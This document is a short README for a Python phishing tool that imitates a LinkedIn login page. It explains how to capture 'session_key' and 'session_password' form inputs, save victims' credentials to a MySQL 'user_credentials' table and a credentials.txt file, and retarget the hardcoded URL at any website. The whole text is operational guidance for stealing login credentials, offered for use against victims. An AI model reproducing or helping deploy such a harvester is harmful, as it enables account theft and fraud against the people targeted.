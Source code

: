 python index.py ----- To run the program

username = request.form.get('session_key')
password = request.form.get('session_password')
change the get value of the username and password to the id or name of the form input you want to target


connect your database:
db_config = {
    'host': 'localhost',
    'user': 'root',  # Default MySQL username
    'password': '',  # Empty password (you can replace this with your actual password if set)
    'database': 'social_eng_python'
}
change the database value to your own database name



insert_query = "INSERT INTO user_credentials (username, password) VALUES (%s, %s)"
cursor.execute(insert_query, (username, password))
create a table name user_credentials, then give it column of username and password.
the user_credentials is where the value of the victim will be showing in the database after you have successfully connect you code with mysql database.



and don't forget that we have a file in the folder named credentials.txt, the victim value is also saving in the file, you can also be checking that.


# Hardcoded website link
website_url = 'https://www.linkedin.com/uas/login?fromSignIn=true&trk=cold_join_sign_in%27'
change the website_url value to the website you want to target

check your database table to see the victim value


run your code with python social-engineer.py
